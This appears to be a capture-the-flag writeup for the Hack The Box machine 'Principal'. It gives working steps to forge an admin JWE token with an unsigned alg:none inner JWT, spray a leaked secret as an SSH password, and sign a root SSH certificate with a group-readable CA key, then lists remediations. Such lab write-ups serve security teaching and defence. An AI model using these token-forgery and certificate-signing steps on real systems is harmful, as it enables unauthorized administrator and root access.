




---
title: Principal
platform: Hack The Box
os: Linux
difficulty: Medium
retired: 2026-10-30
date: 2026-10-30
techniques: [JWE token forgery, alg:none bypass, CVE-2026-29000, Broken access control, SSH CA key exposure, Certificate signing]
attack_path: "Recon → app.js leaks JWKS → alg:none JWE forge → admin API → leaked SSH password → svc-deploy → readable CA key → self-signed root cert → root"
---

# Principal

> Principal is retired, so this writeup documents the full chain end to end. The screenshots are from the live solve. The core web flaw corresponds to CVE-2026-29000, an authentication bypass in `pac4j-jwt`.

## Summary

The box runs an internal operations platform on Jetty (port 8080) that authenticates users with a JWE-wrapped JWT. The server publishes its public key at `/api/auth/jwks` and accepts an inner JWT with `alg: none`. Because the outer JWE is encrypted with that same public key, anyone can produce a valid token and set arbitrary claims, so an admin token can be forged from public information alone, with no credentials. The admin API then leaks an SSH password, which gives a shell as `svc-deploy`. That account belongs to the `deployers` group, which can read the private SSH CA key. Signing a certificate for the principal `root` yields a direct root login.

## Reconnaissance

A service scan shows only two ports: SSH and an HTTP service on 8080 served by Jetty.

```bash title="nmap"
nmap -sV 10.129.244.220

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.6p1 Ubuntu
8080/tcp open  http-proxy Jetty
```

Port 8080 serves a "Unified Operations Dashboard" with a login page. The landing copy already hints at the theme: deployment management with SSH certificate authentication, role-based access with JWT-encrypted authentication, and Prometheus monitoring. Directory fuzzing turns up the API, the dashboard and the client-side JavaScript.

```bash title="ffuf"
api/auth/login      [Status: 405]
dashboard           [Status: 200]
reset-password      [Status: 501]   # "under development"
static/js/app.js    [Status: 200]
```

The real find is `/static/js/app.js`. Its header comment documents the entire authentication design: a JWE-wrapped JWT, RSA-OAEP-256 + A128GCM for the outer encryption, an inner JWT signed with RS256, the public key served at `/api/auth/jwks`, and the claims schema including the `role` field.



## Foothold — Token Forgery

The design has two layers that protect different things, and only one proves authenticity. The outer JWE is encrypted with the server's *public* key, which everyone can fetch, so encryption guarantees confidentiality, not origin. Anyone can build a correctly encrypted token. All trust therefore rests on the inner signature, and that collapses when the server accepts `alg: none`: the inner JWT is simply left unsigned.

Fetching the public key from `/api/auth/jwks` is enough to forge an admin token: build an inner JWT with `"alg":"none"` and `"role":"ROLE_ADMIN"`, then wrap it in a JWE (with `cty: JWT`) encrypted to that public key. No login, no credentials.

```python title="forge (core)"
# inner JWT, no signature
header = {"alg": "none", "typ": "JWT"}
claims = {"sub": "admin", "role": "ROLE_ADMIN", "iss": "principal-platform", ...}
inner  = b64url(header) + "." + b64url(claims) + "."

# wrap unsigned JWT in a JWE encrypted to the server's public key
protected = {"alg": "RSA-OAEP-256", "enc": "A128GCM", "cty": "JWT", "kid": kid}
token = JWE(inner, protected).add_recipient(public_key).serialize()
```

Sent as a `Bearer` token, this opens the admin-only endpoints. `/api/users` lists eight accounts, and `/api/settings` leaks a plaintext secret used across the deployment tooling.

```text title="/api/settings"
"jwtAlgorithm":  "RS256",
"authFramework": "pac4j-jwt 6.0.3",
"encryptionKey": "D3pl0y_$$H_Now42!"
```

The full forge tool, generalized and documented, is published at `github.com/tscherwinski/CVE-2026-29000-jweforge`.

Read as leetspeak, the secret says "Deploy SSH Now", a strong hint that it is reused for SSH. Spraying it across the eight usernames confirms it for `svc-deploy`.



SSH in as `svc-deploy` and read the user flag.



## Privilege Escalation

The shell runs as `svc-deploy`, a member of the `deployers` group. There is no sudo access, so the question is what that group can reach. Searching for group-owned files points straight at the SSH certificate setup.

```bash title="enumeration"
id
# uid=1001(svc-deploy) groups=1002(svc-deploy),1001(deployers)
sudo -l            # nothing
find / -group deployers 2>/dev/null
/etc/ssh/sshd_config.d/60-principal.conf
/opt/principal/ssh/README.txt
/opt/principal/ssh/ca
```

The SSH config reveals the trust model. sshd trusts any user certificate signed by the CA at `ca.pub`, and root login by key is allowed.

```text title="60-principal.conf"
PermitRootLogin prohibit-password
TrustedUserCAKeys /opt/principal/ssh/ca.pub
```

The flaw is in the file permissions on the *private* CA key. sshd checks only that a certificate was signed by this CA, not who signed it, so whoever can read the private key can mint a valid certificate for any principal, including root. And the key is group-readable by `deployers`.

```bash title="ls -la"
-rw-r----- 1 root deployers 3381 /opt/principal/ssh/ca      # private, group-readable
-rw-r--r-- 1 root root       742 /opt/principal/ssh/ca.pub
```

From there it is three commands: generate a throwaway key pair, sign a certificate with the CA key for the principal `root`, and log in. `ssh-keygen` reads the private CA key directly, so the read permission alone is enough, no need to print it.

```bash title="root via self-signed cert"
ssh-keygen -t rsa -f /tmp/mykey -N ""
ssh-keygen -s /opt/principal/ssh/ca -I pwn -n root -V +1h /tmp/mykey.pub
ssh -i /tmp/mykey -o CertificateFile=/tmp/mykey-cert.pub root@localhost
```



## Remediation

| Finding | Impact | Fix |
|---|---|---|
| Inner JWT accepts `alg:none` | Admin tokens forged from public info (CVE-2026-29000) | Pin the expected algorithm server-side, reject `none`, update pac4j-jwt |
| Trust derived from JWE decryption | Public-key encryption proves confidentiality, not origin | Never treat a decryptable token as authentic; authenticity comes only from the signature |
| Secret leaked in `/api/settings` | SSH password readable to any admin-level token | Do not return secrets through the API; load them from a protected store |
| Password reuse | App secret works as an SSH login | Separate credentials per service, prefer key-based auth |
| Group-readable CA private key | Any deployer can sign a root certificate | `0600 root:root` on the CA key; keep it off shared service hosts |

## Lessons Learned

Encryption and signing answer different questions, and a system that confuses them trusts anyone who can encrypt. The whole web chain followed from one published public key plus a verifier that would accept an unsigned token. On the host side, SSH certificate authentication is sound by design; the failure was a single wrong permission bit on the CA key. A private signing key is a master key: it belongs to root alone, never to a service group. Reading a file for signing is still reading it, so `getcap`-style thinking applies to key permissions too: ask not only "can I open this" but "what does opening it let me forge."
